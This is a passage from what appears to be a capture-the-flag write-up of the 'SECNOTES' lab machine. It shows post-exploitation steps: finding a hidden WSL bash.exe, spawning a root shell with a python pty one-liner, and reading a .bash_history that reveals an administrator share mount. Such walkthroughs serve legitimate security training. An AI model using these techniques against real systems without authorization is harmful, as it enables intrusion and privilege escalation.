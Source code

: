 
    C:\Users\tyler\Desktop>\windows\system32\bash.exe
    \windows\system32\bash.exe
    '\windows\system32\bash.exe' is not recognized as an internal or external command, operable program or batch file.



I can search for `bash.exe`, and find it:



    C:\Users\tyler\Desktop>where /R c:\ bash.exe                       
    where /R c:\ bash.exe     
    c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe



Now it's just a matter of running it, and using `python` to get a
interactive pty, just like on a Linux host:



    C:\Users\tyler\Desktop>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
    i mesg: ttyname failed: Inappropriate ioctl for device
    id 
    uid=0(root) gid=0(root) groups=0(root)  

    python -c 'import pty;pty.spawn("/bin/bash")'
    root@SECNOTES:~#



Now this root shell doesn't have any specific privileges on the box. In
fact, it has pretty sandboxed access, and can't access anything tyler
can't access. But, I can look around in that sandbox, starting with the
home directory:



    root@SECNOTES:~# ls -la                                     
    total 8                                       
    drwx------ 1 root root  512 Jun 22  2018 .      
    drwxr-xr-x 1 root root  512 Jun 21  2018 ..    
    ---------- 1 root root  398 Jun 22  2018 .bash_history
    -rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc    
    -rw-r--r-- 1 root root  148 Aug 17  2015 .profile         
    drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem



The `.bash_history` isn't empty... I'll check it out:



    root@SECNOTES:~# cat .bash_history
    cat .bash_history
    cd /mnt/c/
    ls
    cd Users/
    cd /
    cd ~
    ls
    pwd
    mkdir filesystem
    mount //127.0.0.1/c$ filesystem/
    sudo apt install cifs-utils
    mount //127.0.0.1/c$ filesystem/
    mount //127.0.0.1/c$ filesystem/ -o user=administrator
    cat /proc/filesystems
    sudo modprobe cifs
    smbclient
    apt install smbclient